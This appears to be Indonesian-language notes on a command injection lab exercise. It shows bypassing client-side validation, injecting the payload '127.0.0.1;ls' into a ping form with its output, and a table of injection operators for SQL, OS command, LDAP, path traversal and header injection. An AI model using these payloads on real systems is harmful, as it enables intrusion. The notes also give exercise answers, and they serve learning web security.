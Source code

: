 
# Detection 

soal 1 : 

di sini saya cara solve nya, yang pertama saya hapus pattern nya lewat inspect dan saya menginputkan sebuah payload
```bash
127.0.0.1;ls
```

maka akan muncul output
```bash
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms
index.php
style.css
```


	jawaban : Please match the requested format.

# Injecting Commands

solve soal 2: 

jawaban

CTRL + u, cek baris code pattern input


# payload

| **Tipe Injeksi**                               | **Operator**                                      |
| ---------------------------------------------- | ------------------------------------------------- |
| Injeksi SQL                                    | `'` `,` `;` `--` `/* */`                          |
| Injeksi Perintah                               | `;` `&&`                                          |
| Injeksi LDAP                                   | `*` `(` `)` `&` `\|`                              |
| Injeksi XPath                                  | `'` `or` `and` `not` `substring` `concat` `count` |
| Injeksi Perintah OS                            | `;` `&` `\|`                                      |
| Injeksi Kode                                   | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Penjelajahan Direktori/Penjelajahan Jalur File | `../` `..\\` `%00`                                |
| Injeksi Objek                                  | `;` `&` `\|`                                      |
| Injeksi XQuery                                 | `'` `;` `--` `/* */`                              |
| Injeksi Shellcode                              | `\x` `\u` `%u` `%n`                               |
| Injeksi Tajuk                                  | `\n` `\r\n` `\t` `%0d` `%0a` `%09`                |
